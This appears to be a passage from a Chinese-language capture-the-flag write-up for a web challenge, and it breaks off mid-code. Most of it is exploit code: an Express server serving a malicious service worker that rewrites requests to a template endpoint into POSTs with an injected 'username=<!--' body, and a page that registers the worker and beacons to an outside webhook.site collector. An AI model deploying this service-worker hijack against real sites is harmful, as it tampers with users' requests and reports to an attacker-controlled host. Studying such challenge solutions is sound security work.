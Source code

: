 因为要注册service worker，所以这里我本地起一个node server提供http 服务，然后用ngrok 为我们获取一个临时的https域名。其中sw.js将发往`/api/template`的请求方式由get换成post.

server.js

```javascript
const express = require('express');
const app = express();
const logger = require('morgan');


app.use(logger('dev'));

app.get('/', (_, res) => {
    return res.sendFile(__dirname + '/solve.html');
})

app.get('/exp', (_, res) => {
    return res.sendFile(__dirname + '/exp.html');
})

app.get('/sw.js', (_, res) => {
    res.type('application/javascript');
    return res.send(`self.addEventListener('fetch', (event) => {
        event.respondWith((async () => {
            let resp;
            if (event.request.url.includes('template')) {
                resp = await fetch(event.request, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/x-www-form-urlencoded'
                    },
                    body: "username=<!--",
                    referrerPolicy: 'no-referrer'
                });
                return resp;
            } else {
                return await fetch(event.request);
            }
        })());
    });`)
})


app.listen(9000)
```

solve.html.用于注册service worker

```html
<!DOCTYPE html>
<html>
<head>
    <title>Solve</title>
    <script>
        if ('serviceWorker' in navigator) {
            window.addEventListener('load', () => {
                const sw = "https://6ad8-47-94-110-102.ngrok.io/sw.js";
                navigator.serviceWorker.register(sw, { scope: '/' })
                    .then((register) => {
                        navigator.sendBeacon("https://webhook.site/e708eb94-ea07-490a-969a-742d40033925", "Successfully register");
                        setTimeout(() => {
                            window.open("/exp")
                        }, 100);
                    }, (err) => {
```
